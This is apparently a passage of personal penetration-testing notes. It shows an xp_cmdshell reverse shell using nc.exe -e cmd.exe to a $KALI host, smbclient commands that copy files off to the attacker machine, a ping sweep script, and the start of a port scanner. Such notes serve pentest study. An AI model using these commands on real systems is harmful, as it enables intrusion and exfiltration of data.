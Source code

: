 REVERSE SHELL:
```command prompt - target
xp_cmdshell %TEMP%\nc.exe -e cmd.exe $KALI 80
```
---

LINUX:
```bash - target
smbclient \\\\$KALI\\share -U "df" -p df
```

```bash - target
mput *.txt
```

Below we see an example where we copied PS.zip from windows to Kali:

![[Pasted image 20220119102307.png]]

![[Pasted image 20220119101714.png]]

![[Pasted image 20220119102032.png]]

![[Pasted image 20220119102124.png]]

```command prompt - windows
net use /d \\$KALI\share
```

#### Install on windows CMD
https://docs.python.org/3/using/windows.html

#### ping scanner
```python - target
#!/usr/bin/python3
import sys, os

for i in range(int(sys.argv[2]), int(sys.argv[3])+1):
	ip = f"{sys.argv[1]}.{i}"
	response = os.system(f"ping -c 1 {ip} > /dev/null 2>&1")
	if response ==0:
		print(ip)
```

#### Port scanner
```python - target
import argparse, socket, errno, threading, queue

#Initialize the parser
parser = argparse.ArgumentParser(description='A port scanner capable of basic TCP connect scans.')
parser.add_argument('Target', help='an ip or hostname to scan.')
parser.add_argument('-p', help='a port range specified using the \'-\' character or a comma separated list of ports to scan (Default 1-1024).')
parser.add_argument('-t', type=int, help='number of threads to use (Default 10).')
args = parser.parse_args()

#Retrieve parameter values from the parser arguments
target = args.Target

ports = range(1,1024)
if args.p != None and "-" in args.p:
    [minPort,maxPort] = [int(i) for i in args.p.split("-")]
    ports = range(minPort,maxPort+1)
elif args.p != None:
    ports = [int(i) for i in args.p.split(",")]

threads = 10
```